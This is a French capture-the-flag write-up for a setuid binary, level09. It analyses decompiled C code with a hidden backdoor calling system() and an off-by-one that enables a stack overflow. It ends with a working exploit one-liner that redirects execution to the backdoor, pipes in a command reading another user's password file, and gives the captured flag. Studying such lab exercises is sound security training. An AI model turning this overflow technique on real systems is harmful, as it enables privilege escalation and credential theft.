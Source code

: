 # override: [level09]

Observations:
---

#### Détails du profil:
```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

#### Détails du programme:
```sh
-rwsr-s---+ 1 end     users   12959 Oct  2  2016 level09
```

#### Programme décompilé:
```c
//----- (000000000000088C) ----------------------------------------------------
int secret_backdoor()
{
  char s[128];

  fgets(s, 128, stdin);
  return system(s);
}

//----- (00000000000008C0) ----------------------------------------------------
int handle_msg()
{
  char v1[140];
  char v2[40];
  int v3;

  memset(v2, 0, sizeof(v2));
  v3 = 140;
  set_username((__int64)v1);
  set_msg((__int64)v1);
  return puts(">: Msg sent!");
}

//----- (0000000000000932) ----------------------------------------------------
char *__fastcall set_msg(__int64 a1)
{
  char s[1024];

  memset(s, 0, sizeof(s));
  puts(">: Msg @Unix-Dude");
  printf(">>: ");
  fgets(s, 1024, stdin);
  return strncpy((char *)a1, s, *(int *)(a1 + 180));
}

//----- (00000000000009CD) ----------------------------------------------------
int __fastcall set_username(__int64 a1)
{
  char s[140];
  int i;

  memset(s, 0, 0x80uLL);
  puts(">: Enter your username");
  printf(">>: ");
  fgets(s, 128, stdin);
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
  return printf(">: Welcome, %s", (const char *)(a1 + 140));
}

//----- (0000000000000AA8) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  puts(
    "--------------------------------------------\n"
    "|   ~Welcome to l33t-m$n ~    v1337        |\n"
    "--------------------------------------------");
  handle_msg();
  return 0;
}
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>`				| Affiche un message de bienvenue et appelle la fonction `<handle_msg>`. |
| `<handle_msg>`		| Déclare un tableau `v1` de **140** octets défini à **0**, et un tableau `v2` de **40** octets, ainsi qu'un entier `v3` défini à **140**. <br> Ensuite elle appel les fonctions `<set_username>` et `<set_msg>` chacune avec `v1` en paramètres. <br> Puis fini par afficher un message de succès. |
| `<set_username>`		| Déclare un tableau `s` de **140** octets défini à **0**, et un entier `i`, et affiche des message d'entrées. <br> Elle fais ensuite appel à `<fgets>` pour stocker **128** caractères de l'entrée standard dans `s`. <br> Puis survient une boucle qui copie **41** octets de `s` vers `a1` soit le tableau passsé en paramètre. <br> Elle finie par afficher un message de bienvenue suivi du tableau `s`. |
| `<set_msg>`			| Déclare un tableau `s` de **1024** octets défini à **0**, et affiche des message d'entrées. <br> Elle fais ensuite appel à `<fgets>` pour stocker **1024** caractères de l'entrée standard dans `s`. <br> Puis effectue un appel à `<strncpy>` pour stocker dans `a1` soit le tableau passsé en paramètre le contenu présent dans `s`. <br> Cet appel à `<strncpy>` a comme paramètre la valeur stockée à `a1` + **180** soit un octet de l'entier `v3` de la fonction `<handle_msg>`. |
| `<secret_backdoor>`	| Récupère **128** octets de l'entrée standard dans un tableau de **128** octets puis le passe en paramètre de la fonction `<system>`. |


#### Conclusions:
Nous pouvons faire un dépassement de mémoire dans la fonction `<handle_msg>` et donc rediriger l'exécution du programme. \
Cela est possible car nous pouvons changer la variable `v3` de la fonction `<handle_msg>` grace à la boucle dans `<set_username>`. \
Alors l'appel à `<set_msg>` nous permettra d'injecter jusqu'à **255** octets dans la pile de la fonction `<handle_msg>`. \
En effet l'appel à `<strncpy>` utilise la variable `v3`. \
Nous pouvons ainsi de modifier l'addresse de retour de la fonction `<handle_msg>`.

----
Résolution:
----

Nous allons remplir le tableau de la fonction `<set_username>` avec **40** caractères de décalage, \
puis la valeur permettant d'atteindre l'addresse de retour de `<handle_msg>` à partir de `v1`. \
Suivit de **86** caractères de bourrage pour satisfaire le premier appel à `<fgets>`. \
Ensuite nous ajoutons **200** caractères de décalage puis les **2** octets bas de l'addresse de `<secret_backdoor>`.

> Nous changeons seulement les **2** octets les plus bas car le programme est compilé avec `-fpie` \
> Ce qui rend les **6** octets hauts de l'emplacement de ses fonctions aléatoire, mais toujours relatif au main ! 

#### Commande:
```bash
(echo $(python -c "print('a'*40 + '\xca' + 'b'*86 + 'c'*200 + '\x48\x8c'[::-1])"); echo 'cat /home/users/end/.pass') | /home/users/level09/level09
```

#### Flag: `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
